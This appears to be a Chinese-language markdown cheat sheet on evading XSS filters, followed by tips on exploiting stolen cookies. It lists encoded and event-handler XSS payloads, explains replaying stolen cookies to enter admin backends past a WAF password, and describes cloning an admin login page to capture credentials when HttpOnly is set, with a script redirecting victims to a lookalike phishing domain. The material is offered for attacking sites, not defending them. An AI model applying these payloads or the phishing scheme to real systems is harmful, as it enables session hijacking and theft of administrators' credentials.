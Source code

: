 * **Xss的编码绕过**
  * html实体编码：例如：&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;**html实体编码要编码标签内的内容，不能把标签编码，即编码完要满足两边要有标签**
  * 进制类：例如：\x61\x6c\x65\x72\x74\x60\x78\x73\x73\x60，某些时候，也有不带x,例如：\5c\6a
  * Unicode：例如：\u0061\u006c\u0065\u0072\u0074\u0060\u4e2d\u6587\u4e5f\u53ef\u4ee5\u0060
  * 纯转义：例如：\'   \"   \<   \> ,这样的在特殊字符前加\进行转义。

* **使用html标签属性执行xss绕过**
  * 很多html标签支持javascript:[code]伪协议形式
  * 例如：`<table background="javascript:alert(/xss/)"></table>`
  * `<img src="javascript:alert(/xss/);">`

* **利用html中事件绕过**
  * 如果对于`<script>`标签拦截的较死，可以试试利用html中的事件函数，click，mouseover，load等
  * 例子：`<input type="button" value="click me" onclick="alert(/xss/)" />`
  * `<img src="#" onerror="alert(/xss/)">`

* **利用css跨站绕过**
  * css样式表中执行javascript代码同样具有隐蔽性，但是缺点是各个浏览器之间不能通用
  * 例子：`<div style="background-image:url(javascript:alert(/xss/))"></div>`
  * IE5之后版本也可以使用css中的expression，例子：`<div style="width: expression(alert(/xss/));">`

### 【常见问题】

* 目标测试网站时https时，我们使用的xss平台也要使用https协议
* 当打入cookie时，发现访问页面空白或者404
  * 解决方法：跟换访问的页面，一般访问后台页面/admin/，/default/，/index.asp等等页面（原因是管理员删除了某些页面，或者修改了页面名称导致）
* 如果访问后台页面发现要输入waf二级密码
  * 解决方法：直接打入cookie访问后台页面，而不是访问后台登录页面

* 拿到cookie，但是无法登录后台
  * 解决方法：有可能是工具的原因
  * 一般asp站点使用马哥cookie欺骗工具
  * php站点，jsp站点，aspx站点使用cookie manager

* http-only启用时攻击
  * 找到后台登录地址，下载登录页面
  * 修改登录页面表单
  ```html
  <blockquote>                       <formrole="form"id="formLogin"action="/manage/user/login"method="post">
  ```
  被更改后的
  ```html
  <blockquote><formrole="form"id="formLogin"action="/index.php"method="post">
  ```
  
  * 创建index.php文件，用来接收提交的用户名密码保存到数据库，并调用原来的登录页面
  * 创建tz.php，加载目标网站
  * 需要一个公网可以访问到的ip或者域名，用来给管理员访问到
  * 插入构造好的调用网站地址到xss漏洞里面。
  ```html
  <script>window.location.href='http://www-baidu-com-adminlogin.ceshi.top/index.html';</script>
  ```
  
